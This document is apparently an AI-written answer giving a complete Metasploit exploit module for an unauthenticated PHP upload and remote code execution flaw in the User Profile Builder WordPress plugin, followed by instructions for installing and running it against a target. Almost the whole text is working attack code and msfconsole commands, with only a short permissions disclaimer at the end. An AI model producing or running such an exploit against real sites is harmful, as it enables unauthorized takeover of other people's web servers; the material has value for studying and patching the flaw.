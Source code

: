 To create a Metasploit module to exploit the RCE vulnerability in the User Profile Builder WordPress plugin before version 3.11.8, we need to take advantage of the lack of proper authorization in the media file upload functionality. Here is how you can create such a Metasploit module:

### Metasploit Module

Save the following code as `wordpress_user_profile_builder_rce.rb` in the `modules/exploits/unix/webapp` directory of your Metasploit Framework installation.

```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::FileDropper

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'WordPress User Profile Builder Unauthenticated File Upload RCE',
      'Description'    => %q{
        This module exploits a vulnerability in the User Profile Builder WordPress plugin before version 3.11.8.
        The plugin does not have proper authorization, allowing unauthenticated users to upload media files via
        the async upload functionality. This can be leveraged to upload and execute a malicious PHP payload.
      },
      'Author'         =>
        [
          'Your Name'  # OneArch
        ],
      'License'        => MSF_LICENSE,
      'References'     =>
        [
          ['CVE', '2024-6366'],  # Replace with the actual CVE identifier
          ['URL', 'https://example.com/advisory'] # Replace with an advisory link if available
        ],
      'Privileged'     => false,
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Targets'        =>
        [
          [ 'WordPress User Profile Builder < 3.11.8', {} ]
        ],
      'DisclosureDate' => 'Aug 03 2024',
      'DefaultTarget'  => 0
    ))

    register_options(
      [
        OptString.new('TARGETURI', [ true, "The base path to the WordPress installation", '/']),
      ])
  end

  def check
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path),
    })

    if res && res.body.include?('wp-content/plugins/user-profile-builder')
      return Exploit::CheckCode::Appears
    end

    Exploit::CheckCode::Safe
  end

  def exploit
    php_payload = "<?php #{payload.encoded} ?>"
    data = Rex::MIME::Message.new
    data.add_part(php_payload, 'application/octet-stream', nil, "form-data; name=\"async-upload\"; filename=\"#{Rex::Text.rand_text_alpha(8..12)}.php\"")
    data.add_part('1', nil, nil, 'form-data; name="html-upload"')
    data.add_part('Upload', nil, nil, 'form-data; name="upload"')

    print_status("Uploading PHP payload...")
    res = send_request_cgi({
      'method'  => 'POST',
      'uri'     => normalize_uri(target_uri.path, 'wp-admin', 'async-upload.php'),
      'ctype'   => "multipart/form-data; boundary=#{data.bound}",
      'data'    => data.to_s
    })

    if res && res.code == 200 && res.body.include?('.php')
      php_path = res.body.match(/(\/wp-content\/uploads\/[0-9]+\/[0-9]+\/.*?\.php)/)[1]
      print_good("Payload uploaded successfully: #{php_path}")

      register_files_for_cleanup(php_path)
      execute_command("#{php_path}")
    else
      fail_with(Failure::UnexpectedReply, 'Failed to upload payload')
    end
  end

  def execute_command(php_path)
    print_status("Executing PHP payload...")
    send_request_cgi({
      'method' => 'GET',
      'uri'    => normalize_uri(target_uri.path, php_path)
    })
  end
end
```

### Usage Instructions

1. **Save the Module**:
   Save the module as `wordpress_user_profile_builder_rce.rb` in the `modules/exploits/unix/webapp` directory of your Metasploit Framework installation.

   ```bash
   /path/to/metasploit-framework/modules/exploits/unix/webapp/wordpress_user_profile_builder_rce.rb
   ```

2. **Load Metasploit**:
   Start Metasploit Framework by opening a terminal and running:

   ```bash
   msfconsole
   ```

3. **Use the New Module**:
   In the Metasploit console, load the new exploit module using the following command:

   ```bash
   use exploit/unix/webapp/wordpress_user_profile_builder_rce
   ```

4. **Configure and Run**:
   Set the necessary options, such as `RHOSTS` and `TARGETURI`. Then run the exploit.

   ```bash
   msf6 > use exploit/unix/webapp/wordpress_user_profile_builder_rce
   msf6 exploit(unix/webapp/wordpress_user_profile_builder_rce) > set RHOSTS target_ip
   RHOSTS => target_ip
   msf6 exploit(unix/webapp/wordpress_user_profile_builder_rce) > set TARGETURI /
   TARGETURI => /
   msf6 exploit(unix/webapp/wordpress_user_profile_builder_rce) > run
   ```

### Important Considerations

- Ensure you have the appropriate permissions before testing or exploiting any systems.
- This module is a basic template and may require modifications to work against a specific setup or to achieve a particular goal.
- Always test the module in a safe and controlled environment before using it on any production systems.

This Metasploit module uploads a malicious PHP file to the vulnerable WordPress installation and then executes it to achieve remote code execution. Adjust the payload and module as necessary based on the specific nature of the vulnerability and the target environment.
